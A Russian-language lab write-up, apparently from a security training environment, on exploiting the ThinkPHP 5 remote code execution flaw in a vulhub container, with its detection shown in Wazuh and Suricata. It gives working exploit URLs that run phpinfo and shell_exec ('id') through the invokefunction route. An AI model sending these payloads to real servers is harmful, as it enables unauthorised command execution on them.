 # 5-rce

### Материалы:

* [https://www.programmersought.com/article/91363936232/](https://www.programmersought.com/article/91363936232/)

ThinkPHP — чрезвычайно широко используемая среда PHP разработки в Китае. В пятой версии ThinkPHP, поскольку платформа неправильно обрабатывает имя контроллера, она может выполнить любой метод, если на веб-сайте не включена обязательная маршрутизация (которая используется по умолчанию), что приводит к уязвимости RCE.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/thinkphp/5-rce

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8080 будет доступна стандартна страница ThinkPHP

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(1).png" alt=""><figcaption></figcaption></figure>

Посетите следующую страницу для реализации уязвимости и вывода страницы phpinfo

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(2).png" alt=""><figcaption></figcaption></figure>

Также вы можете выполнять произвольные команды на целевой машине, например команду "id":

```
http://ваш-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=id
```

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(3).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/thinkphp-5-rce(4) (2).png" alt=""><figcaption></figcaption></figure>

